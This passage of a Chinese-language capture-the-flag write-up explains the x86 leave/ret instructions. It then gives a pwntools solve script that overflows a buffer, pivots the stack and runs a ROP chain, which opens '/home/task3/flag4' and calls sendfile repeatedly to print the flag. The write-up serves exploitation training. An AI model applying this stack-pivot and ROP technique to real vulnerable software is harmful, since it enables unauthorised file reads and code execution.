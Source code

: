 ```z80
mov esp, ebp
pop ebp
```

"ret" 指令用于函数返回操作，它从调用栈中弹出返回地址，将程序的控制流转移到该地址处执行。

下面演示了本题使用 sendfile 的解法。先把栈迁移到可控区域，用 read 函数来读取 0xdeadbeef 个字符（足够长即可），接下来就可以传入任意的 ROP gadget，由于 sendfile 会记录当前读到的字符，所以只需要重复调用即可：

```python
syscall_ret = 0x0000000000425e04
pop_rdi_ret = 0x00000000004018c2
pop_rsi_ret = 0x0000000000402828
pop_rdx_ret = 0x00000000004017cf
pop_rax_ret = 0x00000000004583c7
str_flag    = next(elf.search(b"/home/task3/flag4\x00"))
lg("str_flag")
buf_addr    = 0x4df000+0x800

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8+0x10 - 8)
payload += p64(buf_addr)

payload += p64(pop_rdx_ret) + p64(0xdeadbeef)
payload += p64(pop_rsi_ret) + p64(buf_addr-0x30)
payload += p64(pop_rdi_ret) + p64(0)
payload += p64(0x401e28)

s(payload)

import time
time.sleep(1)

payload = b"a"*0x30 + p64(buf_addr-0x30)
payload += p64(pop_rdi_ret) + p64(str_flag)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(2)
payload += p64(syscall_ret)
payload += p64(pop_rdi_ret) + p64(1)
payload += p64(pop_rsi_ret) + p64(3)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(0x28)
payload += p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0x28) + p64(syscall_ret)
```